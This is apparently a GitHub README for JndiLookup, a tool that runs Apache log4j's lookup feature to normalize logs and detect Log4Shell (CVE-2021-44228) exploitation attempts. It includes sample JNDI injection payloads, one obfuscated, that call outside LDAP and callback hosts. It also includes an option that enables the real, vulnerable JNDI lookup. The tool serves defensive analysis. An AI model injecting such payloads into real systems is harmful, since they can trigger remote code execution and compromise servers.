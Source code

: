 # JndiLookup
Some tool to help analyzing Apache Log4j 2 CVE-2021-44228

This tool uses the "lookup" feature from log4j-2 to test against the JNDI vulnerability.
The objective is to easily run the lookup feature (to normalize logs for example or to do a real testing on some payload - please be cautious).

To build : "make" (for convenience, the JndiLookup.jar file is included in this git).

Once built, you can run the tool with "java -jar JndiLookup.jar" (the log4j directory with log4j binaries must be in the same path as the JndiLookup.jar)

With no argument, the JndiLookup tool read lines from stdin and "convert" them using the log4j lookup feature - this should be useful to normalize logs and search for exploitation attempts

For example : cat access.log | java -jar JndiLookup.jar


If you pass a string to the command line, the tool will convert this string and exits (please escape all the '$' characters).

For example : java -jar JndiLookup.jar java -jar JndiLookup.jar "\\${jndi:\\${lower:l}\\${lower:d}a\\${lower:p}://world443.log4j.bin\\${upper:a}ryedge.io:80/callback}"

By default, the JNDI lookup is disabled (and replaced by a lookup function that will just add "jndi:" but it's possible to enable the real JNDI lookup by passing the "-X" parameter to JndiLookup ("-X" to be passed as the first parameter) ; PLEASE BE CAUTIOUS with this because it could lead to your system being compromised.

For example : java -jar JndiLookup.jar -X "\\${jndi:ldap://w8pcb14reujq65vic39pz9amv.canarytokens.com/a}"



The following lookup are enabled in the log4j binariers used (2.15.0 for standard usage, 2.14.1 for JNDI-enabled usage) :
- log4j
- sys
- env
- main
- marker
- java
- base64
- lower
- upper
- date 
- ctx

Other lookup might be availabled depending on your environment :
- docker
- kubernetes
- spring
- jvmrunargs

[ Please see https://github.com/apache/logging-log4j2/blob/c30a1398a6697fb832c650870c44284d0052103e/log4j-core/src/main/java/org/apache/logging/log4j/core/lookup/Interpolator.java for details on lookup plugin activation]


Please be aware this tool uses the real code from log4j lookup feature and it could be vulnerable because of other (non-JNDI) security issues.
